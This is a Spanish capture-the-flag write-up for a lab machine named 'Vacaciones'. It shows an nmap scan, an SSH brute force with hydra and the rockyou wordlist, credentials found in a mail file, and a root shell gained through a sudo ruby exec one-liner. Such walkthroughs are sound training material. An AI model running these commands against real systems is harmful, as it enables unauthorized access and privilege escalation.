 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Vacaciones

Empezamos con un escaneo de puertos para ver los servicios que está corriendo la máquina:

```bash
nmap -sC -sV $IPTARGET
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site does not have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

La página web que aloja nos muestra lo siguiente en el código fuente:

```html
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```

Intentando hacer fuerza bruta con el usuario que indica en el mensaje (`camilo`):

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Mirando el mensaje anterior, kisko me ha hecho pensar que puede estar en la carpeta `/var/mail/`.

```bash
ls -la /var/mail/camilo
```

```bash
total 12
drwxr-sr-x 2 root mail 4096 Apr 25  2024 .
drwxrwsr-x 1 root mail 4096 Apr 25  2024 ..
-rw-r--r-- 1 root mail  144 Apr 25  2024 correo.txt
```

```
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Como el correo lo enviaba Juan, podemos iniciar sesión con Juan con `su juan`. Una vez dentro con este usuario, vemos los permisos que tenemos con `sudo -l`:

```
Matching Defaults entries for juan on 5b47abf18274:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 5b47abf18274:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Buscamos el binario `/usr/bin/ruby` en [gtfobins](https://gtfobins.github.io/gtfobins) y vemos que hay una vulnerabilidad con `sudo` para este binario:

```bash
sudo ruby -e 'exec "/bin/sh"'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250723013054.png" alt=""><figcaption></figcaption></figure></div>
